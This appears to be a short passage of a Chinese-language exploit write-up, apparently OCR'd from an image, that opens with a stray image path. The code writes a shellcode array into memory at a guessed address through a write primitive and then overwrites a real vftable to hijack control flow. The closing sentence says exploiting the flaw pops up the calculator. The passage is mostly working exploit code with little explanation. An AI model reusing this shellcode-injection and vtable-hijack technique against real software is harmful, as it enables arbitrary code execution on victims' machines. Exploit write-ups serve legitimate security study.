 ```
shellcode = [835867240, 1667329123, 1415139921, 1686860336, 2339769483,
            1980542347, 814448152, 2338274443, 1545566347, 1948196865, 4270543903,
            605009708, 390218413, 2168194903, 1768834421, 4035671071, 469892611,
            1018101719, 2425393296]
for(var i=0; i&lt;shellcode.length; i++) mywrite(GUESS+0x120+i*4, re(shellcode[i]))

/* overwrite real vftable */
mywrite(MARK_ADDR, GUESS+64)
```

最后，利用该漏洞，我们可以弹出计算器。
